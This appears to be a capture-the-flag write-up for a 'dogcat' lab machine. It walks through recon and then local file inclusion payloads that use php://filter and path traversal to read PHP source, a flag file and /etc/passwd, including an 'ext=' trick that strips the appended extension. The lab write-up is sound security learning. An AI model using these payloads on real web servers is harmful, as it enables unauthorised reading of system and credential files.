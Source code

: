 # dogcat

### dogcat
Nmap scan shows ports 22 and 80 open. `Gobuster` reveals the presence of a file called `flag.php`:<br />
![image](https://github.com/user-attachments/assets/f3527561-1727-47fb-bd14-3f8fc129f08e)<br />
After some testing, the following payload works to retrieve the code of `dog.php`: `http://10.10.181.198/?view=php://filter/read=convert.base64-encode/resource=dog`:<br />
![image](https://github.com/user-attachments/assets/905918ae-dd45-4f71-846f-67bfa1a742a8)<br />
To read the flag, I developed this payload: `http://10.10.25.29/?view=php://filter/read=convert.base64-encode/resource=./../../../../../usr/bin/cat/../../../var/www/html/flag`. It's built this way because the string needs to have the word "cat" or "dog" in it.<br />
![image](https://github.com/user-attachments/assets/016a6e00-8a7b-42ff-9f86-6c3bcae6fbb5)<br />
But now I want to see `/etc/passwd`. If I look at the source code of `index.php`:<br />
![Screenshot 2025-03-28 145653](https://github.com/user-attachments/assets/7ac238be-2da4-4ff8-80fc-10cfa37e849d)<br />
If a variable `ext` is not set, then it automatically adds `.php` at the end of the string. So the following payload will set `ext` to an empty string and will view `/etc/passwd`:<br />
`http://10.10.25.29/?view=php://filter/read=convert.base64-encode/resource=./../../../../../usr/bin/cat/../../../etc/passwd&ext=`.
